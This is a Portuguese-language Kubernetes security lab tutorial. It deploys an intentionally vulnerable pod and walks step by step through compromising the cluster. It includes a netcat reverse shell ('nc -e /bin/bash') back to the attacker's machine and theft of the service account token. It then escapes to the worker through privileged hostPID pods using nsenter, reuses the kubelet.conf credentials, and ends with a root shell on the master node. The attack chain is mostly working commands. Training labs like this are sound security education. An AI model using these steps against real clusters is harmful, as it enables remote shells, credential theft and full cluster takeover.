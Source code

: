 # Kubernetes é seguro por default ou à prova de má configuração?

# Lab + explicação:

Para nosso montar nosso lab vamos precisar de um cluster kubernetes, pode ser minikube ou kind.

**Não executar esse lab em um cluster produtivo** 

Primeiro vamos criar nosso namespace, pod, service account e roles:

```
kubectl create ns production

kubectl create sa web-app-sa -n production

kubectl create role web-app-role -n production --verb=get,list,create --resource=pods,pods/exec

kubectl create rolebinding binding-role-app --serviceaccount=production:web-app-sa --role=web-app-role -n production

kubectl run web-app --image=p0ssuidao/vulne-pod-lab:01 --serviceaccount=web-app-role -n production

kubectl expose pod -n production web-app --port=8080 --target-port=8080 --type=NodePort --name=web-app-role

```

```
kubectl get no -o wide 
kubectl get svc -n production 
``
Agora basta acessar no seu navegador IP do node + Node port

User foo 
Pass bar

Agora vamos abrir a porta 32000 para receber a conexão:
```
sudo nc  -l 32000
```

Executar no terminal remoto para ganhar acesso a shell:
```
nc -e /bin/bash "IP da sua maquina" 32000
```

Primeiro identificarmos com qual usuário estamos logados:
```
id
```
A aplicação está rodando com o usuário appuser, então vamos ver quais processos estão em execução.

```
ps aux
```

Existe um número muito baixo de processos. Ter poucos processos é o primeiro indicativo que a aplicação é em um container. Por default um container roda com o usuário root mas isso pode ser alterado.
Levantaremos informações sobre o release do S.O.
```
uname -a ; cat /etc/*-release
```

Aqui há informações como a linha da distribuição GNU/Linux e versão do Kernel. Com isso já pode se iniciar a busca por exploits para a versão de kernel e baseados na distro.
Continuando a busca, listaremos as variáveis de ambiente.

```
env
```

Vamos continuar o reconhecimento para termos certeza que estamos rodando em um container. Para isso vamos utilizar a ferramenta “amicontained”, pois com ela conseguimos uma serie de informações como:

- Container Runtime.
- Existência de namespace.
- Capabilities.
- Syscalls liberadas.

```
cd /tmp; curl -fSL "https://github.com/genuinetools/amicontained/releases/download/v0.4.9/amicontained-linux-amd64" -o "amicontained" \
 && chmod a+x "amicontained" \
 && ./amicontained
```

Todo pod, deploy e rs possui uma serviceaccount e por padrão são executados com a conta default. Uma serviceaccount fornece uma identidade para processos executados em um pod e nela são atrelado as rules de permissão.
As chaves e certificados ficam em um volume montado no pod.

```
cd /var/run/secrets/kubernetes.io/serviceaccount
```

Primeiro vamos ver a versão do cluster e se conseguimos interagir com a API.
```
curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/version
```

Já que conseguimos acesso a API com esse token vamos tentar listar alguns pods, de inicio vamos tentar listar no namespace em que estamos:
```
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/api --header "Authorization: Bearer $TOKEN" --insecure

curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/api/v1/namespaces/$NS/pods/ --header "Authorization: Bearer $TOKEN" --insecure
```
Conseguimos listar os pods e isso é muito interessante. Para facilitar um pouco as coisas vamos baixar o kubectl para interagir com o cluster.
```
cd /tmp ; curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.18.0/bin/linux/amd64/kubectl ; chmod +x ./kubectl
```
Listaremos os pods com o kubectl.
```
./kubectl get pod
```
Para testar nossos acessos vamos utilizar o "kubectl auth can-i"
```
./kubectl auth can-i --list

./kubectl auth can-i create pods
```

Agora vamos tentar escalar nosso privilegio sem utilizar nenhum exploit apenas conhecimento da ferramenta.

```
cd /tmp; cat > root-shell.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: root-shell
  name: root-shell
spec:
  containers:
  - command:
    - nsenter
    - --mount=/proc/1/ns/mnt
    - --
    - /bin/bash
    image: alpine
    imagePullPolicy: IfNotPresent
    name: "root-shell"
    securityContext:
      privileged: true
    stdin: true
    tty: true
  dnsPolicy: ClusterFirst
  hostPID: true
EOF
./kubectl apply -f root-shell.yml
sleep 10
./kubectl get pods
sleep 10
./kubectl exec -it root-shell -- bash

```
Conseguimos acesso uma máquina !  

Verificando os acessos: 

```
id

ps aux

docker ps

cat /etc/hostname

```
Nosso acesso é a um worker mas queremos chegar nos master, para isso será necessário informações sobre os demais nodes.

Como vimos nossa conta não possui permissão para listar os nodes, então vamos procurar um conta que consiga listar os nodes.
Lembrando dos componentes que fazem parte do node o kubelet possui permissão para verificar os nós ativos, vamos tentar utilizar sua configuração de autenticação para listarmos os nodes:

Vamos pegar suas config com:

```
systemctl status kubelet
```

Com a config do kubelet tentaremos listar os nodes usando o parametro --kubeconfig:

```
kubectl get no --kubeconfig=/etc/kubernetes/kubelet.conf
```

Conseguimos ! 

Agora vamos forçar o scheduler nos agendar no node master.
Mas primeiro precisamos voltar para nosso container com permissão de criação de pods.

```
exit
```

- **Nome do node Master** | Substituir pelo nome do seu nó em yml abaixo.

```
cd /tmp; cat > master-root-shell.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: master-root-shell
  name: master-root-shell
spec:
  containers:
  - command:
    - nsenter
    - --mount=/proc/1/ns/mnt
    - --
    - /bin/bash
    image: alpine
    imagePullPolicy: IfNotPresent
    name: "master-root-shell"
    securityContext:
      privileged: true
    stdin: true
    tty: true
  dnsPolicy: ClusterFirst
  hostPID: true
  nodeName: *Nome do node Master* 
  tolerations:
  - effect: NoExecute
    operator: Exists
EOF
./kubectl apply -f master-root-shell.yml
sleep 10
./kubectl get pods
sleep 10
./kubectl exec -it master-root-shell -- bash
```

Conseguimos acesso ao master =)
```
id

ps aux

docker ps

kubectl get no

kubectl auth can-i --list
``` 
